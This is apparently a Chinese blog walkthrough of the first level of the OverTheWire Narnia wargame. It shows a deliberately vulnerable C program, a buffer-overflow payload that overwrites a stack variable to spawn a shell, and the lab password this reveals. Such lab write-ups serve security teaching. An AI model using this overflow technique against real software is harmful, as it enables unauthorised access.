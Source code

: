 ```yaml
---
layout: post
title:  "Narnia"
date:   2019-10-02 00:00:00 +0800
categories: 安全
tags: game
summary: "本文为 Narnia 题解。"
series: OverTheWire
series_index: 3
comments: true
mathjax: true
copyrights: 原创
archived: true
---
```


[https://overthewire.org/wargames/narnia/](https://overthewire.org/wargames/narnia/)

每关使用 ssh 连接

```shell
ssh -p 2226 narnia0@narnia.labs.overthewire.org
```

## Level 0–>Level 1

```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```

可以看到，有一个大小为 20 的 buf，我们需要通过输入溢出 buf 来覆盖 val 的值。

我们首先做一个简单的尝试：

```shell
$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAABCDE
buf: AAAAAAAAAAAAAAAAAAAABCDE
val: 0x45444342
WAY OFF!!!!
```

值得注意的是，val 的值为 `0x45444342`，即 EDCB。

```shell
/narnia$ python2 -c 'print "A"*20 + "\xef\xbe\xad\xde\x80"'
AAAAAAAAAAAAAAAAAAAAﾭހ
/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAﾭހ
buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
$ cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```
